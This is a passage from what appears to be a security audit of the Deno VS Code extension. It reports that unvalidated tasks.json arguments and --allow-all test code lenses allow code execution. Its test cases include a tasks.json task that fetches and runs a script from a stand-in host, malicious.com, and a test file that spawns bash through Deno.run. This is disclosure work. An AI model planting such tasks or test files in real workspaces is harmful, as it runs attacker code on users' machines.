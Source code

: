 **Preconditions**
- A malicious task is defined in the workspace’s `tasks.json`.
- The task is executed via the extension (e.g., via the Tasks sidebar or keyboard shortcut).

**Source Code Analysis**
- **client/src/tasks.ts**:
  ```typescript
  args.push(command, ...definition.args);
  ```
  `definition.args` comes from user-provided `tasks.json` and is used without validation.
- **client/src/tasks_sidebar.ts**:
  The task provider (`DenoTaskProvider`) constructs tasks from user-defined definitions, including arbitrary arguments.

**Security Test Case**
1. Create a `tasks.json` with:
   ```json
   {
     "version": "2.0.0",
     "tasks": [
       {
         "type": "deno",
         "label": "Attack Task",
         "command": "run",
         "args": [
           "--allow-run",
           "https://malicious.com/puppet.ts"
         ]
       }
     ]
   }
   ```
2. Run the task via the extension’s task runner.
3. Observe that Deno executes `puppet.ts`, which could spawn malicious processes.

---

#### 3. **Unrestricted Use of "--allow-all" Flag in Test Code Lenses**
**Description**
Test code lenses (e.g., "Run Test") invoke Deno tests with default arguments including `[ "--allow-all" ]`. An attacker can exploit this by creating a test file that executes unsafe code (e.g., `Deno.run()`) which the `--allow-all` flag permits, leading to arbitrary code execution.

**Trigger Steps**
1. An attacker creates a test file (`test.ts`) with:
   ```typescript
   Deno.run({ cmd: ["bash", "-c", "echo 'Malicious payload' > /tmp/exploit"] });
   Deno.test("Exploit", () => {});
   ```
2. The user clicks the test code lens to run the test.
3. The extension executes `deno test --allow-all test.ts`, allowing filesystem writes via `Deno.run`.
